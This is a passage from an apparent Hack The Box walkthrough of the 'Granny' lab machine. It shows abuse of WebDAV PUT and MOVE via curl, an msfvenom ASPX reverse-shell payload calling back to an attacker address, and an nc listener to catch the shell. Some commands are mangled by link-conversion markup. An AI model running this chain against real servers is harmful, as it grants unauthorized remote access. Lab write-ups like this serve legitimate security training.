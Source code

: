 We confirm that the HTML file was correctly uploaded on the web server. Next, let’s change the extension of the HTML file to ASPX.

    root@kali:~/Desktop/htb/granny# curl -X MOVE --header 'Destination:[http://10.10.10.15/test.aspx'](http://10.10.10.15/test.aspx') '[http://10.10.10.15/test.html'](http://10.10.10.15/test.html')
    
    root@kali:~/Desktop/htb/granny# curl [http://10.10.10.15/test.aspx](http://10.10.10.15/test.aspx)
    <h1>Hello</h1>

Perfect! Now we have confirmed that we can successfully upload and execute ASPX code on the web server.

## Initial Foothold

Generate an ASPX reverse shell using msfvenom.

    msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.7 LPORT=1234 -o shell.aspx

* **-p**: payload

* **-f**: format

* **LHOST**: attack machine’s (kali) IP address

* **LPORT**: the port you want to send the reverse shell to

* **-o**: where to save the payload

Rename the file to *shell.txt *so that we can upload it on the server.

    mv shell.aspx shell.txt

Then upload the file on the web server and change the file extension to ASPX.

    curl -X PUT [http://10.10.10.15/shell.txt](http://10.10.10.15/shell.txt) --data-binary [@shell](http://twitter.com/shell).txt
    
    curl -X MOVE --header 'Destination:[http://10.10.10.15/shell.aspx'](http://10.10.10.15.shell.aspx') '[http://10.10.10.15/shell.txt'](http://10.10.10.15/shell.txt')

Next, set up a listener on your attack machine.

    nc -nlvp 1234

Execute the *shell.aspx* file (either through the browser or the *curl* command) to send a shell back to our attack machine.

![](../img/Granny Writeup/1_yycN8mBgy0owbvD8-abFXQ.png)

We get a shell! Unfortunately, we don’t have permission to view the *user.txt *flag, so we need to escalate privileges.

![](../img/Granny Writeup/1_Lni1TFZq3fyeukHzXdpfVw.png)

**Note**: This shell is unstable and seems to crash every minute or so. So the next couple of steps will have to be done in several sessions. If you don’t want to go through this torture, skip to the ***Extra Content ***section that solves the box using Metasploit.

## Privilege Escalation
